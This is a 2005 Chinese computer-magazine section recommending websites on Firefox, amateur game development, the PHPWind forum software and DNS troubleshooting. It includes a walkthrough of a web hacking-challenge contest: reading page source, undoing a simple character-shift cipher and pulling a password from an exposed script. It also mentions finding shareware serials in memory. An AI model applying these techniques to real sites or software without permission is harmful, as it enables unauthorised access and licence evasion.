- (2) MSDN每日追踪： http://blog.csdn.net/MSDNPortal/

## 火狐狸的中国家——FirefoxCN.com

寻宝对象：Firefox 中文网 http://www.firefoxcn.com

寻宝理由：不久前，一个开源浏览器——Firefox 横空出世，并在短时间内下载量节节高升。这是否意味着 IE 时代已经过去，我们无从判定。但我们能够确定的是，你十分有必要驯服和驾驭这只火狐狸。火狐狸（Firefox）已经有了简体中文版本，但它在中国的家在哪儿呢？



从哪儿下载火狐狸（最新版本：1.0）

- 简体中文增强版： http://www.mozilla.net.cn/firefox/downloads/Firefox%20Setup%201.0.exe
- 简体中文正式版： http://download.mozilla.org/?product=firefox&os=win&lang=zh-CN
- 英文版： http://download.mozilla.org/?product=firefox&os=win&lang=en-US
- 非官方最佳化加速版： http://pryan.org/firefox/jayfromtaiwan/twloggecko.htm

## 我的火狐狸要更强

扩展下载中心： http://www.firefoxcn.com/extensions/

我的采宝箱：Firefox 和 Maxthon 等浏览器一样，具有高度的可扩展性，通过安装增强的扩展插件，能让火狐狸跑得更欢！进入相关扩展下载页面后，点击其中的“安装此扩展”链接， Firefox 就会自动在线安装该扩展。

- (1) 双击关闭标签页扩展： http://www.firefoxcn.com/2004/12-29/195831.html Firefox 同样也支持多窗口浏览，可是其打开的标签页默认只支持鼠标中键关闭。虽然我们可以通过鼠标滚轮来完成，但总觉得没有 Maxthon 的双击标签即可关闭的功能顺手，那么试试这款扩展插件吧（增强版已内置了该插件，安装增强版的用户无须安装）。
- (2) 类似 MyIE 的超级拖拽插件： http://www.firefoxcn.com/2004/12-29/194529.html 在 MyIE 中，我们可以通过其超级拖拽功能将一个链接拖拽到网页的空白处即可在新标签页中打开链接。在 Firefox 中有没有同样的功能呢？
- (3) 增强 Firefox 下载管理器： http://www.firefoxcn.com/2004/12-29/194354.html Firefox 自带了下载管理器，如果你想使用它，那一定要先让它拥有断点续传、下载管理功能才行。
- (4) RSS 和 ATOM Feed 阅读器： http://www.firefoxcn.com/2004/12-29/19422.html 还记得本刊以前介绍过的 RSS 新闻吗？现在我们可以用浏览器直接查看 RSS 新闻，无须安装其他 RSS 客户端。
- (5) FlashGot： http://www.firefoxcn.com/2004/12-23/02922.html 这个名字看起来是不是特别熟悉？相信很多朋友已经把它当成了 FlashGet。但他不是 FlashGet，而是 FlashGot！一个能让我们在 Firefox 中使用其他下载工具（如 FlashGet、Net Transport 等）的扩展。

## 我的火狐狸很聪明

常见问题解答： http://www.firefoxcn.com/faq/

我的采宝箱：Firefox 必竟有别于传统的 IE 内核浏览器，在使用过程中我们会遇到这样和那样的问题。而 Firefox 才“出道”不久，网上关于其的技术资料相对来说比较少，通过 Google 搜索来解决问题的方法对于 Firefox 来说并不适用。来看看 Firefox 中文网上关于常见问题的解答吧，相信会对你有所帮助。

- (1) 将点击外部链接后 Firefox 打开窗口改为打开标签： http://www.firefoxcn.com/2004/12-23/22496.html
- (2) E-mail 的链接在 Mozilla Firefox 中不能正常工作： http://www.firefoxcn.com/2004/12-23/22471.html
- (3) 如何安装 Flash 插件： http://www.firefoxcn.com/2004/12-23/22438.html

## 我是火狐狸专家

Firefox 研究： http://www.firefoxcn.com/research/

我的采宝箱：使用中的经验、技巧、心得可以使一个菜鸟渐渐成长为一位专家。学习他人的 Firefox 使用经验和技巧也同样能让我们晋级为“火狐狸专家”。

- (1) 驯服火狐：Firefox 配置文件精华技巧： http://www.firefoxcn.com/2004/12-23/22385.html 自己动手 DIY 一下，让你的火狐狸更听你的话。
- (2) 给 Firefox 加速： http://www.firefoxcn.com/2004/12-23/223524.html Firefox 浏览网页的速度非常快（网上甚至有传言说比 IE 更快），但我们这些浏览速度的极限追求者是永远不会满足的，永远要让你的火狐狸跑得更快！
- (3) Firefox 鼠标热键列表（IE 对照）： http://www.firefoxcn.com/2004/12-23/02345.html 本刊今年第 1 期曾经刊登过一篇《拒绝繁琐 上网省时大法》，其中介绍的使用 IE 热键来实现纯键盘浏览网页的方法相信让很多读者有了一把当“黑客”的感觉，在 Firefox 中，我们也能这样干。
- (4) Firefox 问答集锦： http://www.firefoxcn.com/2004/12-23/02116.html 收集了一些不太常见但你有可能遇到的小问题的解决方法。

## 回忆中的金点时空——GPGame.net

寻宝对象：成都金点游戏工作组 http://www.gpgame.net

寻宝理由：记得多年前，网上曾十分流行一款国产的开源 RPG 游戏一圣剑英雄传。你可以自己对故事的剧情、对话、人物造型进行重构。虽然现在看来，这款游戏显得幼稚而简单，但仍深深为咱们中国人能开发这样一款完全免费、开放的游戏而感到自豪。但在这个游戏渐渐被人们所淡忘之后，作为其游戏开发组的金点，他们现在在做些什么呢？带着好奇，我们决定探访金点的老家——“金点时空”。



## 当年 是什么让我们感动

链接： http://www.gpgame.net/gpsoft/hero/hero.htm

我的采宝箱：作为《圣剑英雄传》（以下简称《圣剑》）系列的第一代产品，这个游戏无疑是最经典但同时又是现在看来最“粗糙”的。故事的剧情：美丽的公主被大魔王抓走了，并限国王三天内交出王位，否则就要杀死公主；现在只有你小飞刀能救出公主，赶快行动吧……



- (1)《圣剑英雄传—英雄救美》： http://www.gpgame.net/download/rpg.zip 注意：这个版本只支持在 Windows 9x 下运行。
- (2) 游戏源代码（VC5.0 + DirectX5.0）： http://www.gpgame.net/download/rpg_source.zip
- (3) 制作手札： http://www.gpgame.net/docs/program/book/daily01.htm http://www.gpgame.net/docs/program/book/daily02.htm http://www.gpgame.net/docs/program/book/daily03.htm http://www.gpgame.net/docs/program/book/daily04.htm 想知道这个游戏是怎样做出来的吗？从作者提供的制作手札中，让我们来一同感受作者的喜悦和艰辛……

## 圣剑，仍在挥舞

我的采宝箱：有很多朋友只玩过第一代的《圣剑》（笔者可是将整个系列玩了一遍），但金点却一直没有停止努力。相比一代有了长足进步的 DEMO 版《圣剑英雄传 II ——双刃剑》、更加完善的《圣剑英雄传 II ——番外篇》，游戏没有停止升级，仍带着当初开放的梦想而飞翔。



- (1)《圣剑英雄传 II ——双刃剑》： http://www.gpgame.net/download/hero2.zip
- (2)《圣剑英雄传 II ——番外篇》（v1.3）： http://www.gpgame.net/download/sword213.rar 源代码： http://www.gpgame.net/download/sword2_source.zip 宣传动画： http://www.gpgame.net/download/sword2.mpg 打造你自己的 RPG： http://www.gpgame.net/gpsoft/sword2/make-rpg.doc

《圣Ⅱ》的开放特性让我们仍能够在其引擎上制作自己的游戏，读一读“打造你自己的RPG”，相信你会有所收获。

## 除了圣剑，我们还有

我的采宝箱:金点除了《圣剑》之外，还有什么别的作品？让我们暂时抛开《圣剑》的光环，静下心来欣赏金点其他的作品。

- (1) Net Studio: http://www.gpgame.net/gpsoft/netstudio/index.htm
一个实现得较完整的网络聊天室，包含源代码下载。

- (2) Plane (GBA): http://www.gpgame.net/download/plane.zip
金点竟然有 GBA 游戏?

- (3) 坦克大战(DOS): http://www.gpgame.net/download/tank.zip
凡是游戏制作人员，在其初上手时都会不约而同地选择实现“坦克大战”这一经典游戏，让我们看看《圣剑》的制作者之一SoftBoy是如何实现的。

- (4) 超级打斗(DOS): http://www.gpgame.net/download/fpro.zip
又是金点成员的作品。

## 你也可以有自己的游戏作坊

链接: http://www.gpgame.net/docs/game.htm
我的采宝箱:如果你是一位游戏开发人员，在这儿你能找到一些经验和技术;或者你是一位向往进入游戏开发领域的初学者，那么这儿极有可能成为你进入这个领域的第一块敲门砖。

- (1) GBA 探索日记(共 11 篇): http://www.gpgame.net/docs/program/gba/index.htm

- (2) 实现一个 2D 引擎: http://www.gpgame.net/docs/program/2dengine/index.htm

- (3) 如何实现游戏截屏功能: http://www.gpgame.net/docs/program/capture.htm

- (4) 做个什么样的游戏——兼谈业余游戏小组的发展: http://www.gpgame.net/docs/design/gamegroup.htm

## 中国的民间游戏开发 仍在继续

链接: http://www.gpgame.net/union/union.htm
我的采宝箱:金点将一些网友的优秀作品收集了起来，告诉我们:中国的民间游戏开发，仍在继续。

- (1) 劫掠轩辕剑(作者: 司徒汇编) http://www.gpgame.net/download/games/xyj.rar
当初是觉得这个作者的名字十分有性格，所以就试玩了一下。结果发现故事情节非常搞笑……

- (2) 大家来找茬: http://www.gpgame.net/download/games/djzc.rar

- (3) 特训: http://www.gpgame.net/download/games/train.rar
还记得以前在学校上电脑课的时候，总喜欢偷偷玩一个飞机躲子弹的游戏……

- (4) 圣Ⅱ特别版: http://www.gpgame.net/download/games/sword_special.zip
一个由网友实现的《圣剑Ⅱ》的特别版，解压后覆盖游戏目录中的原文件即可。

- (5) 圣Ⅱ无敌修改器: http://www.gpgame.net/download/games/hero2_crack.zip
《圣剑》的 Fans 着实不少，有人为其专门编写了游戏修改器，用了之后，3 分钟就爆机了……

- (6) 英雄救美物品修改器: http://www.gpgame.net/download/games/hero_crack.zip
《圣剑》一代的难度令不少朋友爆机困难，又是刚才那个编写修改器的朋友;实现了可以 2 分钟爆机的物品修改器。

## 还有什么

金点游戏论坛: http://www.gpgame.net/forum/index.asp

心情日记: http://www.gpgame.net/daily/daily.htm

## 再探“黑客”

还记得本刊介绍的《找个网站当黑客》吗？现在这个网站又推出了“高手挑战 2”，站长承诺为前十名通关者提供总金额 500 - 1000 元的奖金。

探宝对象: http://www.csksoft.net/NetCompet2/

探宝理由:随着通关难度的进一步提高，趣味性也大大增强了，对自己电脑水平有信心的朋友不妨再来试试。

游戏规则友情提示:

- 1. 注册账号时应使用真实的邮件地址，否则无法领取奖金。

- 2. 一些关卡会给出验证码碎片(每个游戏玩家的验证码都不相同)，在最后一关时需要以前所有关卡的验证码。

- 3. 在游戏中不能像 1 代中那样跳越关卡，否则会提示错误并被服务器记录。



2005年3月12日晴

离上次入侵已经隔了整整三个月的时间，我知道:是再出手的时候了。于是我在“高手挑战 2”注册了一个账号，开始了又一次“黑客”之旅……

第一关:轻敌乃兵家大忌，这次的 2 代游戏大大提高了难度，第一关就险些让我失手。网页中并没有特殊的提示，无奈之下只好右键查看网页源代码，竟然也没有发现什么问题。正当一筹莫展之时，却发现网页中还调用了一个 CSS 文件 stdStyle.css(和第一关的网页在同级目录下，见图 1)，于是在 IE 中打开了这个文件，发现了一段有趣的文字:“nextstage {URL:deefr3c.htm;}”。



提示: CSS 文件包含了网页中所需的各种样式定义数据，通常载入 CSS 语句在网页源代码的开始处。

第二关:竟然这么好，直接给出了下一关的地址？可是“+L=J=G?J9E.@LE”怎么看也不像是网页的地址啊。再回过来看了看网页上方提示的内容，先是提到了 ASCII 编码，又给出了一段奇怪的文字“@LE->htm”。2 秒钟后，我的脑海里闪出一行字:转子加密。试着查了一下 ASCII 码表，发现“@LE”的 ASCII 码为“40 4C 45”，而“htm”的 ASCII 码则为“68 74 6D”(两处的 ASCII 码均为十六进制)，果然这种加密方式就是每个字符的 ASCII 码减去了 28(十六进制)，所以只需将“+L=J=G?J9E.@LE”中每个字符的 ASCII 码加上 28 就得到了下一关的地址:Stereogram.htm。

提示:字符加密中最简单的就是转子加密法，通过将字符向前或向后移位(如 A 变为 B、B 变为 C)来实现加密的目的。

第三关:在破解这关之前，根据第二关的经验，我先仔细地阅读了提示。提示中说这个游戏中经常会使用到一些工具(给出的例子都是些查看文件隐藏数据的工具，见图 2)，同时要善于使用 Windows 自带的工具，接着又提到了很多程序都会在文件的头部写入自己的标记数据。看到页面下方的一张 JPG 图片，一切都明白了……用“记事本”强行打开了这张图片，果然发现了一段 URL: DreamingChild.htm。



第三关 1/2:正想着第四关会是怎么样时，却意外地看见网页标题上写着 3 1/2 关(3 关半！？)。显然我是被胜利冲昏了头脑了，仔细地看了看提示:“你还有 1/2 的路要走”、“可视化编程背后的核心技术仍是大量的底层代码，那么 HTML 网页的核心是什么呢”——当然是 HTML 源代码，我不假思索地脱口而出。我顿时恍然大悟，急忙退回到了第三关的页面，查看其源代码。在“别忘了这里”下方发现了一段代码:

```
<TitleName>.<ExtName>
Asc(<NewName>(n))=Asc(<TitleName>(n))
+1 'where n ranges from 1 to Length(<TitleName>)
FinalData:<NewName>.<ExtName>
```

这段代码的大意应该是网页的文件名需要通过一个函数进行处理，而扩展名不变。又仔细分析了第二行的函数代码，发现这又是一个转子加密函数，我们要做的是将刚才得到的“DreamingChild.htm”的前半段(即“DreamingChild”部分)中的每个字符的 ASCII 加上 1，终于得到了正确的第四关地址: EsfbnjohDijme.htm。

提示:做任何事都不要冲动，冷静地看清全局再行动才是上策。

2005年3月13日晴

第四关:终于到了第四关，真不容易，看着表都已经凌晨 2 点了。黑客这个事就讲究个连贯性，于是我接着又开始第四关的破解。这关的提示比较短，大意是许多共享软件需要序列号才能使用，但一个关键的缺陷使这种加密算法成为徒劳。学过软件破解的我当然知道这指的是什么，有些软件在验证序列号是否正确时，会在内存中存放正确的序列号，然后和用户输入进行比较，稍有经验的人就可以通过 HexWorkShop 等软件在内存中找到正确的序列号。而网页中的口令验证则是通过调用网页中的函数实现的，如果我们能找到这个函数……同样是查看网页源代码，找到了口令验证部分的代码，其中有一行“if(pass==GetPassWord())”，然后跳转到下一关。这句就是将用户输入的 pass 值和 getPassWord()函数的返回值作比较，如果一致就跳转到下一关，这个函数的实现部分在哪里？我反过来往上浏览代码，发现了一行脚本包含语句“script src="http://www.csksoft.net/NetCompet2/gamearea/GetPassWord.asp"”，打开这个文件的链接，咦？莫非这就是口令？

第五关:网页中显示了一个 Flash，据说是下一关的信息(见图 3)，可是只显示了一半——“dejvs……”，完整的 URL 该怎么看呢？上方的提示说这个 Flash 文件是用 Flash 5 制作的，如果是用 Flash MX2004 做的就无法像原来那样利用软件提取其中的文件了。言下之意就是可以用软件提取这个文件中的内容，于是从网上找来了 SWF Scanner，果然得到了下一关的地址: deejvsjohAohjef.htm。

第六关:“我们往往过于谨慎了……”，这个提示是什么意思?这个网页中还用框架形式嵌套了一个网页，但却是“该页无法显示”，在源代码中获取了嵌套页面的地址后单独打开了一次，仍是一无所获。突然却发现这个“该页无法显示”的网页原来还藏着秘密，果真是过于谨慎了。
提示:第六关的原理与挑战1代中某个关卡的破解原理相同。

第七关:竟然玩起了文字游戏，这关要求填写“The quick brown fox jumps over the lazy……”中不全的内容，在提示中说在找到的单词后加上“.htm”就是下一关的地址。我应该在哪儿找完整的句子呢，为什么不试试搜索?
提示:善于使用搜索引擎可以使我们事半功倍，如果碰到不确定的语句，用搜索引擎来搜一下通常会得到正常的答案。

第八关:这一关的提示是我们平时听的CD、MP3的采样率一般都是44100Hz的。而下面放了一段据说是Great_csk(站长)的梦话录音的MP3下载。下载后一听吓了一跳，难道是大象?还是恐龙?声音文件一旦修改了采样率，就会变得很奇怪，但如果用软件将采样率改回44100Hz……(见图4)
提示:HTM和HTML都是网页文件，不要漏了字母。

2005年3月14日多云
由于本次挑战是有奖金设置的，所以第九关到第十四关(最终关)不再给出详细的提示，只给出一些关键字线索帮助大家完成破解。毕竟，自己动脑子会更有乐趣得多。

- 第九关:Stereoic、新老版本、激活按钮
- 第十关:nofrost.nease.net
- 第十一关:picMixer
- 第十二关:无需账号、经典漏洞
- 第十三关:伪造数据
- 第十四关:验证码碎片

(中华小当家)



图4 如果将文件转为“WAV”，试试“录音机”的加速功能

## 网络短讯 签汇 —— DNS

## 芝麻开门

### 什么是DNS？

DNS(Domain Name System)是域名解析服务,很多人听说过它,但很多人却讲不清楚它。这里我们举个例子来解释一下:你一定知道114查号台吧?世界上有那么多的电话号码,谁能记得住呢!不过,只要我们记得那个公司的名字,然后打个电话问问114就知道了。DNS的作用就跟114一样——互联网上的IP地址太多了,而且都是纯数字,我们记不住,但只需要记得域名或者URL地址就行了。在IE地址栏里面输入由字母组成的网址,DNS服务自然就会替我们完成地址转换的工作。不过,DNS一般都是默认的DNS服务器在工作,我们不需要手动去查询,所以一般情况下,我们几乎感觉不到它的存在。

### 抢先见识 DNS

要指定 DNS 服务器地址,只需要打开网络连接,在接入网络的连接上点击右键,选择“属性”菜单,在打开的窗口中双击“Internet协议(TCP/IP)”,勾选“使用下面的 DNS 服务器地址”,并指定一个或者多个 DNS 服务器地址。需要注意的是,DNS 服务器使用的优先级越靠前越高(见图1)。



### DNS 的由来

你可能会很奇怪:为什么需要 DNS 这样一种东西呢?为什么不一开始就使用文字形式的网络地址呢,这样不就不需要 DNS 了吗?这里面就有“历史遗留问题”了:在早期的网络世界里,每台电脑都只用 IP 地址来表示,那时的电脑主机很少,所以记忆起来也不难。不久,仅仅用脑子和纸笔记忆太麻烦了,于是一些 UNIX 的使用者就建立一个 hosts 对应表(这个名字我们会在后面解释),将 IP 地址和主机名称对应起来。这样,用户只需输入电脑名字就可以代替 IP 来进行沟通了。

### DNS 是怎样工作的？

DNS 使用的是阶层式的工作方式,有点像电脑的目录树结构,在最高层是根目录,然后下面分为很多子目录,子目录下面还有子目录。例如:我们网站的域名为 cfan.com.cn,这个域名当然不是凭空而来的,是从 com.cn 所分配下来的。com.cn 又是从 cn 分配而来的。cn 是从哪里来的呢?答案是从“.”来的,也就是所谓的“根域”(root domain)。根域已经是域名的最高层,而“.”这层是由 InterNIC(Internet Network Information Center,互联网信息中心)所管理。全世界的域名就是这样,一层一层地解释的。因此,一个完整的域名实际上应该是以“.”结束的,比如“cfan.com.cn.”,只是我们平常都省略了而已。

### 实例:查询 cfan.com.cn 的完整过程

- 第一步:本地向这台电脑所设定的 DNS 服务器发问:“cfan.com.cn 的 IP 是什么?”
- 第二步:这台 DNS 服务器会先看看它的缓存中有没有答案,如果有,就公布答案;如果没有,就会询问“上级”。在任何一台 DNS 服务器上都设定有“上级”,也就是要向谁问。所以,这个时候它就往上层的 DNS 提问:“.cn 要问谁?”
- 第三步:“.”层的 DNS 会答出 .cn 的查询对象,你用的 DNS 记录下来这个答案。
- 第四步:接下来你所用的 DNS 就会问 .cn 这层的 DNS:“查找 .com.cn 要问谁?”因为这是归“.cn”管的。
- 第五步:同样地, .cn 的这层就会回答 .com.cn 要向谁查。你的 DNS 就会问 .com.cn 这层的 DNS:“cfan.com.cn 的 IP 是什么?”
- 最终,你的机器查询到了 IP 地址。

### 小知识

### 域名与网址有什么区别?

你可能注意到上面例子中 cfan.com.cn 和我们平常在浏览器中使用的网址很相近,它们是一回事吗?不一样的。网址的形式我们很熟悉,比如 http://www.cfan.com.cn,而这个网站的域名则是 cfan.com.cn。至于 www.cfan.com.cn,这只是这个域当中的一台主机,主机的名字叫做 www。至于“http://”,是因为浏览器会以指定的 http(Hypertext Transfer Protocol,超文本传输协议)协议向主机发出数据请求,所以一个完整的网址都会加上前缀“http://”。

### 你知道吗?

世界上有很多主干 DNS 服务器,其中最重要的是13台路由服务器。如果路由服务器无法正常运行,那么因特网就会陷入瘫痪。这13台服务器的名字分别为“A”至“M”,其中10台设置在美国,另外各有一台设置于英国、瑞典和日本。

### 局域网中为什么不需要 DNS？

看了上面的文章,你可能会产生这样的疑问:局域网中的电脑,并没有启用类似 DNS 的服务,为什么就能找到对方的主机呢?比如,我知道局域网中有一台机器的名字叫做 cfan,就可以在“运行”窗口输入“\\cfan”来访问,计算机怎么知道它的 IP 地址呢?其实,局域网中虽然也可以使用 DNS,但是如果不存在 DNS 服务,这里还有一项 Internet 上没有的功能—广播,当一台机器查询另外一台机器的时候,它会向广播一样询问所有的机器,符合要求的机器就会回应它,这样双方就可以沟通、交流了。

### 容易跟DNS混淆的几个概念

明白了 DNS 的好处,很多朋友可能会犯迷糊了:除了 DNS 外,还听过系统中的 Hosts 文件、WINS 这两个概念,而且好像都是起到域名解析作用的。那么究竟这3个概念有什么区别呢?

- 1.Hosts 文件
它跟 DNS 的作用是一样的,不过它的优先级别要比 DNS 高一些,它相当于一个小型的 DNS 管理系统。Hosts 文件位于 \Windows (Windows 98), \Winnt\System32\Drivers\Etc (Windows 2000), 或者 \Windows\System32\Drivers\Etc (Windows XP), 它是一个没有后缀名的文件,我们可以用记事本打开并编辑它。我们常常听说的“修改 Hosts 文件来屏蔽恶意网站”,其实就是通过把这些网站的地址解析到本机 IP(127.0.0.1),造成“欺骗”浏览器的效果。其操作方法为:在文件内容中新增一行,输入形如“127.0.0.1 xxxx.com”(见图2)。如果你嫌手动编辑这个文件太麻烦,可以到 http://www.newhua.com/cfan/200505/hostsedir.rar 去下载使用一个名为“Hosts 编辑器”的软件,可以简化你的操作。



### 小提示

给 Hosts 文件安个“开关”
首先到 http://www.mvps.org/winhelp2002/hosts.zip 去下载一个 Hosts 文件,其中已经帮我们收集好了很多恶意网站,只需将其解压缩后拷贝到系统中的 Hosts 文件。接下来可能会遇到一个问题,万一其中有些网站被“无辜”地加进去了,怎么办呢?也很简单,从 http://www.mvps.org/winhelp2002/RenHosts.bat 下载这个批处理文件,将它放到 Windows 目录,为其建立一个桌面快捷方式。需要屏蔽时双击即可启用，再次双击则可以恢复为未屏蔽状态。

## 2. WINS

这是跟DNS “风马牛不相及”的概念。它只存在于Windows系统中，其他系统没有这个概念，如Linux、UNIX等。WINS(Windows Internet Name Service, Windows网际命名服务)是指包含这种服务的服务器可以登记其工作站的计算机名、IP地址等数据(见图3)，当工作站查询名字的时候，它可以提供。DNS是基于TCP/IP协议的，而WINS则是基于微软专用微软公司的面向网络的编程接口NETBIOS协议的，它们分别对nslookup和net use命令提供支持。



## 实例：地址查询全过程

当你在浏览器中输入http://www.cfan.com.cn后，看到的就是电脑爱好者的网站了。那么这段时间里，Internet发生了什么呢？
首先我们的浏览器会去系统的Hosts文件中找找，看看里面是否有cfan.com.cn这个域名对应的IP地址，如果有那就按照这个IP地址进行连接。如果没有那就去网络属性配置中找找，看我们是否配置了DNS服务器，如果我们手动指定了“首选DNS服务器”和“备用DNS服务器”，那就用它们对域名的管理来解析cfan.com.cn对应的IP地址。如果发现我们没有指定DNS服务器，那就查找离我们最近的DNS服务器……直到解析出IP地址，最后根据这个IP地址向其对应的主机发起网页文件下载请求，比如访问电脑爱好者的网站，就是发起“下载电爱网站所在主机上存储的index.htm以及其包含的图片等内容”的请求，下载完毕后再由浏览器来解释下载回来的HTML代码，最后我们就在浏览器中看到千变万化的网站了！(见图4)



## 解决DNS故障的利器——nslookup

我们经常会听到有人问这样的问题：我的计算机能上QQ，但所有网页都打不开，咋办？大虾就会回上一句：DNS问题。事实真的是这样么？到底如何确认是DNS出了问题呢？又如何去解决它呢？这下就要用到nslookup.exe这个小软件了。如果你使用Windows 2000/XP/2003，请大家找找你的\Windows\System32目录，里面有个叫nslookup.exe的软件，就是它！
一般情况下，排除浏览器代理设置和病毒等原因，能上QQ但却不可以打开任何网页的故障原因就是DNS连接问题，要么就是DNS服务器工作不正常，要么就是我们访问的站点没有出现在该DNS服务器解析数据库内，也就是它解析不出该域名的IP地址，自然不能访问了。下面让我们带着解决这个故障的目的来学习一下nslookup。

## 1. DNS服务器工作不正常

在“开始→运行”中输入“cmd”打开命令提示符窗口，输入“nslookup www.sina.com.cn”，如果DNS服务器工作正常，我们会看到如图所示的返回信息(见图5)。



其中“Server”是你正在使用的DNS服务器域名，“Address”表示DNS服务器IP地址，接下来显示的“Name”表示查询域名的名称，“Addresses”中出现了多个IP地址，证明该域名与多台服务器进行了绑定(一般大型站点才会如此)，“Aliases”则是该域名的别名。
如果DNS服务器工作不正常，那么我们会收到一句 “Can't find server name for domain: No response from server” 或者:
*** Default servers are not available
Server: Unknown
Address: 127.0.0.1
...(见图6)

## 实例:用nslookup来查询某IP指向的域名

不管用我们熟悉的Ping还是nslookup，都可以简单地实现查询域名对应的IP地址，如果反过来怎么查询呢？我们可以用如下操作来实现：首先依次运行 “nslookup”、“Set type=PTR” 命令，接下来输入要查询的IP地址并回车即可。不过可能很多ISP都不提供域名反解释功能，你可以再试试运行这个命令：ping xxx.xx.xx.xx -a。

## 2. DNS服务器不能解析访问的域名

有时候可能会出现DNS服务器工作正常，但却收到一句 “can't find www.xxxx.com: Non-existent domain”(“xxxx”代表你查询的域名)，这表示该DNS服务器不能正常解析该域名。我们常常听到 “电信又封掉了某网站”，访问被封的网站就会出现这样的情况。
确认是由于DNS服务器故障引起的网页无法访问后，我们唯一能做的就是更换DNS服务器来解决。国内主要城市的DNS服务器列表，大家可以到http://www.week5.net/html/2004-12-08/7165.html 和 http://www.my-you.com/lb5000/cgi-bin/topic.cgi?forum=6&topic=318&show=0获得。

## 小知识
nslookup命令

nslookup集成于Windows NT/2000/XP/2003中，它是一个监测网络中DNS服务器是否能正确实现域名解析的命令行工具，要正常的使用它，你必须确认系统已经安装了TCP/IP协议。有关它的更多应用，我们可以在命令提示符界面下，输入 “nslookup” 后回车，再运行 “?” 命令来获得。你也可以访问微软KB库里的相关介绍:http://support.microsoft.com/kb/200525。
(四川 飞翔鸟)



## 风从这里吹来——PHPWind.net

寻宝对象:PHPWind 官方网站 http://www.phpwind.net
寻宝理由:本刊曾向大家多次介绍了有关自己架设服务器，并在此之上建立论坛的方法。国内有许多优秀的论坛程序：在微软的ASP阵营下，最知名的莫过于DVBBS(动网);而在免费的PHP阵营下则有PHPWind和Discuz!两大派系。其中PHPWind号称是运行速度最快的论坛程序，负载能力极强，而且它在插件集成度方面也很有特色。



## 找出免费的 PHPWind 安装包

同其他很多论坛一样，PHPWind也坚持长期同时维护免费版和商业版。其需要付费的商业版在http://www.phpwind.com 可以找到，而我们要找的当然是免费版咯。
2.0.2简体中文免费版:http://www.phpwind.com/2.0/phpwind.zip

## 如果你安装过老版本

别以为只有Windows需要升级，PHPWind每过一段时间也需要升级一次，经常光顾新版本的发布页可以保证得到及时的升级信息。每次版本升级提高的不仅是速度，还有安全性，所以不要小看噢! Windows可以用Windows Update升级，可论坛该怎么升级呢？别担心，升级程序在此。
(1)1.3.6→2.0.2简体中文升级版:http://www.phpwind.com/2.0/upto.zip
PHPWind就是从1.3.6版本开始火起来的，如果你还在使用老版本，该升级一下了。
(2)2.0.x→2.0.2简体中文升级版:http://www.phpwind.com/2.0/mend.zip
在1.3.6发布之后，也有过多次版本更新，如“2.0.0”、“2.0.1”，小版本升级也是非常必要的。压缩包中有升级方法，仔细看看再动手吧。

## 如果你用其他论坛程序

有很多用户始终坚持使用一种论坛程序的原因是：转投其他论坛程序无法将用户、帖子等数据也同时转换过去。而PHPWind则提供了很多主流论坛程序→PHPWind的数据转换工具，不过在转换前还是应该先将数据都备份好。
(1)IPB v1.3.6 final→ PHPWind v1.3.6 论坛转换程序
链接:http://www.PHPWind.net/read.php?tid=3811
(2)VB6.2.x → PHPWind 2.x转换程序
链接:http://www.PHPWind.net/read.php?tid=3721
(3)Discuz!2.0 → PHPWind 2.x转换程序
链接:http://www.PHPWind.net/read.php?tid=2747&fpage=1
(4)Ofstar2.0 → Phpwind1.3.6转换程序
(20040613修改)
链接:http://www.PHPWind.net/read.php?tid=4024
(5)Discuz 2.5/3.1.2 → PHPWind 2.x转换程序
链接:http://www.PHPWind.net/read.php?tid=2774
(6)动网 DVBBS6/7 Access 版 → PHPWind1.36 插件
链接:http://www.PHPWind.net/read.php?tid=2754
(7)动网 DVBBS7 Access 版 → PHPWind2.0.x 插件
链接:http://www.PHPWind.net/read.php?tid=25418
升级提示:由于一些版本的升级工具只提供了转换到PHPWind1.3.6的功能，所以如果需要使用最新2.0.2版本，可以先转换，再用1.3.6→2.0.2升级程序进行升级。使用动网SQL版的用户可以先将数据导出为Access格式，然后再进行转换。

## 给你的论坛换身“马夹”

一个优秀的论坛程序必须具备强大的可扩展性，并满足最大限度的个性化需求。PHPWind支持自定义风格(皮肤)模板，在其官方网站上也已经有很多发烧级DIYer制作了一些好看的风格，快来找一找吧！

精选风格发布区:http://www.phpwind.net/thread.php?fid=48

给大家推荐一些比较好的风格，下载后根据压缩包中的说明安装即可。

- (1)地下酒吧:http://www.phpwind.net/read.php?tid=25443&fpage=1
以低调的灰色为底色的风格，处处透射着阴郁、安静。
(2)海盗的浪漫:http://www.phpwind.net/read.php?tid=25520&fpage=1
非常个性的风格，以黑色为基调，镶嵌着神秘海盗骷髅图案的羊皮纸状的底图，宛如一张真正的海盗藏宝图。



(3)Discuz!风格:http://www.phpwind.net/read.php?tid=25460&fpage=1
偏执于Discuz!论坛程序的用户终于可以心安理得地转投PHPWind了！一眼看去，还真以为是Discuz!呢。
(4)幸福城市: http://www.phpwind.net/read.php?tid=25512&fpage=2

## 给论坛“装软件”

论坛还能装软件？对，你没有看错，论坛可以装的“软件”有两种:插件和Hack。其中插件是指符合原程序公布的插件扩展标准的附加程序，而Hack则是指对原程序的部分代码进行修改，使它能够支持新的功能。PHPWind有一个非常吸引人的特色就是它集成很多优秀的插件，大家不会再因为安装Hack而将论坛程序改得面目全非了。

链接:http://www.phpwind.net/read.php?tid=21492&fpage=1

- 推荐插件:勋章插件、首页调用插件、QQIP库插件、图片附件水印插件、管理团队、娱乐中心。
推荐 Hack:没有虚拟形象下显示自己的QQ秀、给发言框增加背景图片、为帖子加上版权信息、分页美化、类似MSN的消息提示、广告修改方法。

如果你对插件的安装调试方法仍心存疑惑，那么建议看看官方提供的《插件调试手册》。
链接:http://www.phpwind.net/read.php?tid=16338&fpage=1

## 有问题怎么办

除了求助于Google，当论坛的安装使用出现问题时，在官方论坛的讨论区提问也是一个不错的主意。
链接:http://www.phpwind.net/thread.php?fid=2

## 讲述中国漫画人自己的故事

寻宝对象:中国动漫相关网站
寻宝理由:动漫是一种文化、一种经典、一种回忆。久违的中国漫画人，你好吗？
《丁丁历险记》、《七龙珠》、《机器猫》……这些国外的漫画相信会勾起你一些童年的回忆。学生时代曾经把漫画放在桌子里偷偷地看；在公车里常常拿着64开的掌上漫画痴笑不已。真正喜爱漫画的朋友不会忘记中国人原创的经典，当年风靡一时的《画王》已经停刊多年，现在惟一能让我有印象的好像只有《少年漫画》了。让我们来寻找一下那些曾经为中国本土漫画成长付出努力的动漫人现在怎么样了。


## 归来的颜开

主要作品:《雪椰》、《颜开日记》、《夏日轨道》、《梦的开始》、《宇宙人的礼物》
